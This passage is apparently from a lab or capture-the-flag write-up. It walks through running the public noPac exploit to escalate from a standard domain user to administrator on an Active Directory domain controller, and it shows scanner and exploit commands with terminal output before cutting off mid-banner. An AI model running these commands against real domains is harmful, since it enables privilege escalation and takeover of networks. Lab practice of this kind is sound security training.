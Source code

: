 
### Step-by-Step Exploitation: {#step-by-step-exploitation}


#### 1 - Prepare the Exploit: {#1-prepare-the-exploit}

-   **Create Python Virtual Environment**:
    -   I prefer to use python venvs when using exploits this way I don't mess with my underlying python install and everything can existing in it's own space with it's own dependencies
    -   `cd noPac`
    -   `python3 -m venv noPac`

-   **Activate Venv**:
    -   `source noPac/bin/activate`

-   **Install Dependencies**:
    -   `pip3 install -r requirements`


### 2. Enumerate to find out if the target is vulnerable to the NoPac Exploit: {#2-dot-enumerate-to-find-out-if-the-target-is-vulnerable-to-the-nopac-exploit}

-   Luckly the exploit we are using comes with a scanner, so this can be used to check if the host is vulnerable.
    ```shell
    kali in noPac  🍣 main 🛤️  ×1🐍 v3.12.6  2GiB/15GiB | 0B/1GiB with /usr/bin/zsh
    🕙 14:00:18 zsh ✖  sudo python3 scanner.py $domain/$user:$pass -dc-ip $box -use-ldap


    ███    ██  ██████  ██████   █████   ██████
    ████   ██ ██    ██ ██   ██ ██   ██ ██
    ██ ██  ██ ██    ██ ██████  ███████ ██
    ██  ██ ██ ██    ██ ██      ██   ██ ██
    ██   ████  ██████  ██      ██   ██  ██████



    [*] Current ms-DS-MachineAccountQuota = 10
    [*] Got TGT with PAC from 10.129.96.155. Ticket size 1470
    [*] Got TGT from 10.129.96.155. Ticket size 721


    ```


### 3. Execute the Exploit: {#3-dot-execute-the-exploit}

-   Run the NoPac exploit tool with your standard domain user credentials.
-   The tool will automatically perform the necessary steps to exploit both vulnerabilities.

-   Here's an example of what the output might look like when running the NoPac exploit:
    ```shell
    kali in noPac  🍣 main 🛤️  ×1🐍 v3.12.6  2GiB/15GiB | 0B/1GiB with /usr/bin/zsh
    🕙 14:38:42 zsh ❯ sudo python3 noPac.py $domain/$user:$pass -dc-ip $box -dc-host resolute -shell --impersonate administrator -use-ldap

    ███    ██  ██████  ██████   █████   ██████
    ████   ██ ██    ██ ██   ██ ██   ██ ██
    ██ ██  ██ ██    ██ ██████  ███████ ██
    ██  ██ ██ ██    ██ ██      ██   ██ ██
    ██   ████  ██████  ██      ██   ██  ██████
